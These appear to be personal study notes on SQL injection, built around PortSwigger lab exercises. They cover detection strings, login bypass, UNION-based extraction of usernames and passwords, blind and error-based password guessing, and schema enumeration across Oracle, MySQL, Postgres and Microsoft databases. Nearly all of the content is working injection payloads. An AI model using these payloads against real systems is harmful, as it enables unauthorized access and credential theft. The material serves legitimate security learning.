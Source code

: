 # SQL Injections
## Detection
```
'
'OR 1=1+--+
'OR 1=2+--+
time-delay payloads
triggering out-of-band network interaction
```

## Examples
### Retrievieng hidden data
`https://insecure-website.com/products?category=Gifts`
When user clicks on the *Gifts* category, browser requests URL from above  
SQL query:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
Here *released* means that product is released and could be viewed by users. If we change released value to 0, we will be able to see all the products  
URL:
`https://insecure-website.com/products?category=Gifts'--`
Query:
`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`
Or we can use next query:
`https://insecure-website.com/products?category=Gifts'+OR+1=1--`
And the query will be:
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`
1=1 returns True, so query will return all product from category *Gifts*

### Subverting application logic
If user sends login wiener and pass bluecheese, app will let him in  
Query:
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`
If we enter `administrator'--` we will get in as administrator without checking password, because query will be next:
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

### Retrieving data from other database tables
```
SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users--
```

### Blind SQL injections
* Triggered by changing logic of query (boolean results, divide-by-zero etc)
* Time delay of processing query
* Out-of-band network ineraction

#### Conditional responses
Example:  
Site uses tracking cookies with some token which is compared to tokens in DB and if it appears to be there, site returns hello message  
If we add `AND '1'='1` nothing will change because it's True statement  
But if we add `AND '1'='2` it will fail and we will detect Blind SQLi  
We can use it to brute password symbol by symbol like this:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm        #returns True, meaning that 1 symbol of pass is greater then m
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't        #returns False, meaning that 1 symbol of pass is less then t
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's        #returns True, meaning that 1 symbol of pass is s
```
Note: SUBSTRING() function could be named SUBSTR() on some DBs  
To check next symbol use SUBSTRING((...), 2, 1)  
it's good idea to use Burp Intruder or Python script

#### Error-based SQLi
In such case we force DB to do smth which throws an error  
For example we can force DB to try divide-by-zero:
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a          # nothing happens, because 1=2 is False and we just evaluate a to a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a          # we force DB to 1/0 because 1=1 is True
```
```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```
In such case if 1 character of password is more then 'm', nothing happens. But if it's smaller, we force DB to 1/0, which throws an error  
For different DBs:
* Oracle: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual `
* Microsoft: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END `
* Postgres: `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
* MySQL: `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

### Second-order SQLi
SQLi which is stored inside server/database and executed later with another HTTP request. Also called stored SQLi  

## Examining database
### Versions:
* Oracle DB version: `SELECT * FROM v$version`
* MySQL: `SELECT @@version`
* PostgreSQL: `SELECT version()`

DO AGAIN:
[LAB](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
[LAB](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

### Contents of DB:
* Obtaining database tables (on most of DBs except Oracle): `SELECT * FROM information_schema.tables`
* Obtaining columns: `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
* Oracle: `SELECT * FROM all_tables`, `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

NOTE: It's good idea to query Oracle table 'dual'  

*Example of workflow*
```
' UNION SELECT NULL -- 
' UNION SELECT NULL, NULL -- 
' UNION SELECT @@version, NULL --
' UNION SELECT table_name,NULL FROM information_schema.tables -- 
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table='<table_name>' -- 
' UNION SELECT username, password FROM '<table_name>' -- 
```
## SQLi in different contexts
SQLi could be placed in JSON/XML and also could be obfuscated:
```xml
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```
We obfuscate symbols like binary or unicode  
Also we can use Hackvertor plugin for Burp (for encoding in xml use hex entities)  
If wee see that SQLi returns only one column, we can concatenate like this:
```
1 UNION SELECT username || '~' || password FROM users
```

REPEAT THIS [LAB](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

## UNION SQLi
### Determining the number of columns
order by method:
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```
null method:
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

In Oracle we always need to specify FROM. For this purposes we have 'dual' table.  

NOTE: COMMENT COULD BE -- OR #  
To detect certain data type (e.g. string), we can place it inside of series of NULL queries:
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

### Retrieving multiple values within a single column
`' UNION SELECT username || '~' || password FROM users--` (Oracle)
Other DBs:
* Microsoft: `'foo'+'bar'`
* Postgres: `'foo'||'bar'`
* MySQL: `'foo' 'bar'` (note the space) or `CONCAT('foo','bar')`

